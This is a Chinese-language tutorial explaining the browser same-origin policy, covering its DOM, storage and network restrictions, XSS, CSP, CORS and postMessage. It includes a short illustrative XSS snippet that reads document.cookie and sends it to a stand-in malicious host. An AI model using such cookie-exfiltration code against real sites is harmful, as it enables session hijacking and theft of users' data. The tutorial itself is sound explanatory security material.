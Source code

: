 ```yaml
---
title: 27.同源策略
date: 2021-06-14 20:21
---
```


## 前言
web巨大包容性的原因，使得我们可以访问全世界的各个资源，开拓眼界。但并不是所有的资源我们都可以获取并展示的，我们在自己的页面里面获取其他网站的内容时，浏览器会提示我们`Access to XMLHttpRequest at 'XXX' from origin 'XXX' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource`，这个问题相信很多工程师都遇到过，这是由于浏览器的安全策略导致的，限制原因就是：同源策略。

## 什么是同源策略

```html
1. http://zerocore.cc:8080
2. http://zerocore.cc
3. http://zerocore.cc:80
4. https://zerocore.cc
5. https://zerocore.cc:443
```
看上面的5个地址，有什么区别么？

1、2、4区别就在于协议、地址、端口的区别，而2和3，4和5没有区别，原因是因为https的默认端口就是443，https默认访问端口是443，http的默认访问端口是80，只不过是浏览器帮助我们简化了这一步。

所以，**如果两个URL的协议、域名和端⼝都相同，那么这两个URL同源。**。浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有⼀套基础的安全策略的制约，这个策略就是**同源策略**。

而同源策略主要表现在DOM、Web数据和⽹络这三个层⾯：

1. DOM层⾯。同源策略限制了来⾃不同源的JavaScript脚本对当前DOM对象读和写的操作。具体表现在一个页面无法操作另一个非同源页面的DOM对象读和写

2. 数据层⾯。同源策略限制了不同源的站点读取当前站点的Cookie、SessionStorage、LocalStorage等数
据。由于同源策略，⽆法通过一个页面访问另一个非同源页面中的Cookie、SessionStorage或者
LocalStorage等内容。

3. ⽹络层⾯。同源策略限制了通过XMLHttpRequest等⽅式将站点的数据发送给不同源的站点。最常见的问题就是会遇到浏览器报错为`Access to XMLHttpRequest at 'XXX' from origin 'XXX' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource`。

注意：这里报错的原因的确是同源策略的原因，但是本质上获取的数据已经得到的了，只是浏览器拦截了这个操作，我们常说服务端请求数据是没有同源策略限制的，同源策略是前端的限制。

## 矛和盾：便利性与安全性

同源策略会隔离不同源的DOM、⻚⾯数据和⽹络通信，进⽽实现Web⻚⾯的安全性。

不过安全性和便利性是相互对⽴的，让不同的源之间绝对隔离，⽆疑是最安全的措施，但这也会使得Web项⽬难以开发和使⽤。因此我们就要在这之间做出权衡，出让⼀些安全性来满⾜灵活性；⽽出让安全性⼜带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击是我们常见的两种前端攻击方式，也是开发中最容易忽略的。

### 1. ⻚⾯中可以嵌⼊第三⽅资源

Web世界是开放的，可以接⼊任何资源，⽽同源策略要让⼀个⻚⾯的所有资源都来⾃于同⼀个源，也就是要将该⻚⾯的所有HTML⽂件、JavaScript⽂件、CSS⽂件、图⽚等资源都部署在同⼀台服务器上，这⽆疑违背了Web的初衷，也带来了诸多限制。⽐如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外⼀个域名上，因此我们就需要同源策略对⻚⾯的引⽤资源开⼀个“⼝⼦”，让其任意引⽤外部⽂件。

所以最初的浏览器都是⽀持外部引⽤资源⽂件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的⼀个问题是浏览器的⾸⻚内容会被⼀些恶意程序劫持，劫持的途径很多，其中最常⻅的是恶意程序通过各种途径往HTML⽂件中插⼊恶意脚本。

```html
<html>
    <head>
        <script src="http://www.test.com/test.js"></script>
        ...
    </head>
    ...
</html>
```

当这段HTML⽂件的数据被送达浏览器时，浏览器是⽆法区分被插⼊的⽂件是恶意的还是正常的，这样恶意脚本就寄⽣在⻚⾯之中，当⻚⾯启动时，它可以修改⽤⼾的搜索结果、改变⼀些内容的连接指向，等等。

除此之外，它还能将⻚⾯的的敏感数据，如Cookie、SessionStorage、LoacalStorage等数据通过XSS的⼿段发送
给服务器。具体来讲就是，当你不⼩⼼点击了⻚⾯中的⼀个恶意链接时，恶意JavaScript代码可以读取⻚⾯
数据并将其发送给服务器，如下⾯这段代码:

```js
function hack(){
    let url = `http://www.test.com?cookie = ${document.cookie}`
    window.open(url)
}
hack()
```

在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加⾄恶意站点尾部，当打开该恶意⻚⾯时，恶意服务器就能接收到当前⽤⼾的Cookie信息。

以上就是⼀个⾮常典型的XSS攻击。为了解决XSS攻击，浏览器中引⼊了内容安全策略，称为CSP。**CSP的核⼼思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执⾏内联JavaScript代码**。通过这些⼿段就可以⼤⼤减少XSS攻击。

### 2. 跨域资源共享和跨⽂档消息机制

默认情况下，如果打开⻚⾯，在⻚⾯中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻⽌其向InfoQ发出请求，这样会⼤⼤制约我们的⽣产⼒。

为了解决这个问题，我们引⼊了跨域资源共享（CORS），使⽤该机制可以进⾏跨域访问控制，从⽽使跨域数据传输得以安全进⾏。

在介绍同源策略时，我们说明了如果两个⻚⾯不是同源的，则⽆法相互操纵DOM。不过在实际应⽤中，经常需要两个不同源的DOM之间进⾏通信，于是浏览器中⼜引⼊了跨⽂档消息机制，可以通过window.postMessage的JavaScript接⼝来和不同源的DOM进⾏通信。

